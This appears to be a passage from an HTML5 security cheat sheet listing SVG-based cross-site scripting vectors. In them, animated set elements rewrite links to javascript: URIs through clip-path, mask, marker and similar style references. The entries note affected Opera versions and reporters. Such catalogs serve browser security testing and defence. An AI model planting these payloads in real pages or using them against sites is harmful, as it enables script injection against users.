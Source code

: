 ```
<svg > <a id="x"><rect fill="white" width="1000" height="1000"/></a> <rect fill="white" style="clip-path:url(test3.svg#a);fill:url(#b);filter:url(#c);marker:url(#d);mask:url(#e);stroke:url(#f);"/> </svg>``<svg  > <clipPath id="a" > <set xlink:href="#x" attributeName="xlink:href" begin="1s" to="javascript:alert(1)" /> </clipPath> <pattern id="b"> <set xlink:href="#x" attributeName="xlink:href" begin="2s" to="javascript:alert(2)" /> </pattern> <filter id="c"> <set xlink:href="#x" attributeName="xlink:href" begin="3s" to="javascript:alert(3)" /> </filter> <marker id="d"> <set xlink:href="#x" attributeName="xlink:href" begin="4s" to="javascript:alert(1)" /> </marker> <mask id="e"> <set xlink:href="#x" attributeName="xlink:href" begin="5s" to="javascript:alert(2)" /> </mask> <linearGradient id="f"> <set xlink:href="#x" attributeName="xlink:href" begin="6s" to="javascript:alert(3)" /> </linearGradient> </svg>required_mime: image/svg+xmlcrossdomain: 1path: [`html5sec.org/test3.svg`](http://html5sec.org/test3.svg)name: test3.svg 
```

*   opera 10.x
*   opera 12.0

*   xss

*   javascript
*   svg
*   css
*   xml
*   style

*   #129

reporter：LeverOne

### Passive SVG JavaScript execution via style injection (2)#110test

This example shows how SVG markers allow insertion of external links with JavaScript URI into the current document.

```
<svg > <path d="M0,0" style="marker-start:url(test4.svg#a)"/> </svg>``<svg  > <marker id="a" markerWidth="1000" markerHeight="1000" refX="0" refY="0"> <a xlink:href="http://google.com"> <set attributeName="xlink:href" to="javascript:alert(1)" begin="1s" /> <rect width="1000" height="1000" fill="white"/> </a> </marker> </svg>required_mime: image/svg+xmlcrossdomain: 1path: [`html5sec.org/test4.svg`](http://html5sec.org/test4.svg)name: test4.svg 
```

*   opera 10.x
*   opera 11.52

*   xss

*   javascript
*   svg
*   css
*   xml
*   style

reporter：LeverOne

### SVG chameleon behavior via embedded XSLT#125test
